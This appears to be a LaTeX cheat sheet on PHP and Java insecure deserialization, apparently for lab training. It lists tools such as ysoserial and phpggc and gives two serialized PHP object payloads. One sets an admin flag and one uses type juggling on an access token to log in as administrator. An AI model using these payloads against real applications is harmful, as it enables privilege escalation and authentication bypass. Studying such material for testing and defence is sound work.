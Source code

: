 \documentclass[11pt]{article}
\begin{document}
\section{Tools Reference}

\begin{center}
\begin{tabular}{|l|l|}
\hline
\textbf{Tool} & \textbf{Purpose}  \\
\hline
Burp Suite Decoder & Decode Base64/URL/Hex  \\
Burp Inspector & View decoded values  \\
Hackvertor (extension) & On-the-fly encoding  \\
ysoserial & Java gadget chains  \\
phpggc & PHP gadget chainsd \\
SerializationDumper & Parse Java serialized streams  \\
phar-jpg-polyglot & PHAR/JPEG polyglot generator  \\
PayloadsAllTheThings & Reference payloads  \\
\hline
\end{tabular}
\end{center}

\section{Quick Reference: Common Payloads}

\subsection{PHP type juggling (swap string for integer)}
\begin{lstlisting}[style=code]
# Minimal PHP object injection
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}

# PHP type juggling (swap string for integer)
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
\end{lstlisting}
\end{document}
